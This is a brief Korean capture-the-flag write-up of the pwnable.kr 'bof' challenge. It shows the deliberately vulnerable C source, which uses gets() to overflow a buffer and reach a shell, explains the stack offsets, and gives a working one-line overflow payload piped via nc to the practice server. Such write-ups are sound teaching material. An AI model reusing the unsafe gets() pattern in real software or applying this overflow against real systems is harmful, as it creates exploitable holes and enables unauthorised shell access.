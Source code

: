 ```yaml
---
sort: 3
---
```


# bof

bof바이너리와 bof.c파일을 다운받을 수 있다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

<img src="/picture/pwnable.kr/bof.png" width="1000"/>

overflowme의 주소는 ebp-0x2c이고, func의 첫번째 인자인 key의 위치는 ebp+0x8이기 때문에 아래와 같이 해주면 된다.

```bash
$ (python -c "print('A'*0x34+'\xbe\xba\xfe\xca')";cat) | nc pwnable.kr 9000
cat flag
```

```tip
## 알게 된 점

bof
```